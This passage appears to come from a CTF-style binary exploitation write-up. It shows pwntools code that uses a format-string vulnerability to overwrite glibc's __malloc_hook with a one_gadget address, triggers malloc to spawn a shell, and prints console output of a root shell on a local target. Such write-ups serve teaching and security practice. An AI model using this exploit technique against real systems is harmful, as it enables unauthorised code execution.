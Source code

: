 We can use `0x4f322`, for example. Now we can easily override `__malloc_hook` using `pwntools` (they provide a magic function called `fmtstr_payload` that does all the work):

```python
one_gadget_shell = libc.address + 0x4f322

payload = fmtstr_payload(
    offset,
    {libc.sym.__malloc_hook: one_gadget_shell},
    write_size='short'
)

p.sendlineafter(b'print->CN=', payload)
p.recv()
```

**Task 7**: The need to override `__malloc_hook` is because now we are going to send `%10000$c`. This task will require some memory space, so the binary will call `malloc`. However, `__malloc_hook` will be executed before. Since it has been modified, instead of calling `malloc`, the program will spawn a shell (`/bin/sh`):

```python
p.sendlineafter(b'print->CN=', b'%10000$c')
p.interactive()
```

If we run the whole exploit, we will gain Remote Code Execution:

```console
$ python3 exploit.py
[+] Opening connection to 127.0.0.1 on port 1234: Done
Offset: 8
51 0x558d4b23fe5b
Address of main(): 0x558d4b23fe5b
Binary base address: 0x558d4b23e000
GOT printf(): 0x558d4b243058
Address of printf(): 0x7f33d1794e80
Glibc base address: 0x7f33d1730000
Address of __malloc_hook(): 0x7f33d1b1bc30
[*] Switching to interactive mode
$ whoami
root
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to global variables and the imported libraries.
